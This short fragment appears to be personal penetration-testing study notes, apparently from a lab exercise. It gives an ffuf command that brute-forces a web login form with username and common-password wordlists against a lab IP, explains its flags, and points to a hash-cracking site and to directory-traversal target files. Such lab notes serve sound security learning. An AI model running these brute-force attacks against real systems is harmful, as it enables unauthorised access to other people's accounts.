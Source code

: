     ffuf -w valid_usernames.txt:W1,/usr/share/wordlists/SecLists/Passwords/Common-Credentials/10-million-password-list-top-100.txt:W2 -X POST -d "username=W1&password=W2" -H "Content-Type: application/x-www-form-urlencoded" -u http://10.10.229.11/customers/login -fc 200

-w: wordlist (:W1 = username, :W2 = passwords), -fc: check for HTTP Status Code to filter (in this case, filter 200)

## Hash craking
https://crackstation.net/

## File Inclusion
Files to aim which a Directory Traversal
![image info](Useful_files_from_Linux_fs.png)

